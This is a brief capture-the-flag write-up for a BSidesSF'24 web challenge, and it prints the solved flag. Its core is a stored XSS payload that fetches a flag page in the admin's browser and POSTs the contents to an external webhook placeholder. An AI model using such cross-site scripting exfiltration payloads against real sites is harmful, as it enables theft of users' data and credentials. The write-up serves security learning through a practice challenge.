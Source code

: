```yaml
---
CTF: BSidesSF'24
Category: web
Points: "100"
Date: 2024-05-05
Solved?: true
---
```

----
[<- Home](../../)
### TL;DR

**Flag**

```
CTF{try-50me-XS5}
```

### Details

Description

> Can you use XSS to steal the flag from the admin?
> 
> Author: itsc0rg1
> 

XSS payload:

```
<script>var x=new XMLHttpRequest();x.open('GET','/xss-one-flag',true);x.onload=function(){var y=new XMLHttpRequest();y.open('POST','<webhook url>',true);y.send('flag='+x.responseText);};x.send();</script>

```

After submitting it, we get the flag

![](assets/Pasted%20image%2020240505232736.png)
